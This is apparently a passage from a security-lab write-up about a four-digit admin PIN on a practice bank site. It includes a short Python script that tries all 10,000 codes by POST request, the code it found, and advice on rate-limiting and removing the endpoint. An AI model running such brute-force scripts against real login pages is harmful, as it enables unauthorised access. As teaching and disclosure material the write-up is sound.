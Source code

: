 ```python
# Generate all possible combinations of 4 digit codes
from itertools import product
DIGITS = [str(i) for i in range(10)]
NUM_DIGITS = 4
codes = list(product(DIGITS, repeat=NUM_DIGITS))

# Brute-force authentication by trying all codes
import requests
URL = 'https://files.quoccabank.com/admin'
for a, b, c, d in codes:
  # Send code as a POST request to URL
  data = {'pin': a + b + c + d}
  resp = requests.post(URL, data=data, cert=(CERT_PATH, KEY_PATH))
  if len(resp.text) != 198:
    # Print code used to bypass authentication
    print(data)
    exit()
```

In less than two minutes, the program indicated that 1024 was the expected access code to unlock the admin portal. As evident in the image below, entering this code provides access to the contents behind the admin authentication.

![](images/files3.png)

**Impact**

As can be seen above, a normal user can access the admin portal content without initially knowing the correct access code. However, brute-forcing and trying every four-digit access code combination allows one to successfully find the correct code and access the contents behind the authentication in less than two minutes.

**Remediation**

Since there are only 104 or 10000 such combinations of four-digit codes, someone can easily brute-force the authentication by trying each combination. Increasing the complexity of the code (such as having extra digits or using alphanumeric characters like a password) makes brute-forcing more costly. Incorporating rate-limiting to requests slows down the process of brute-forcing, which makes finding the correct access code through a similar method more time-consuming. In such a case, using a secure password instead may be a better alternative. However, as suggested in the image, this portal seems to be deprecated so the best form of prevention is to not have the endpoint in the first place by removing it.
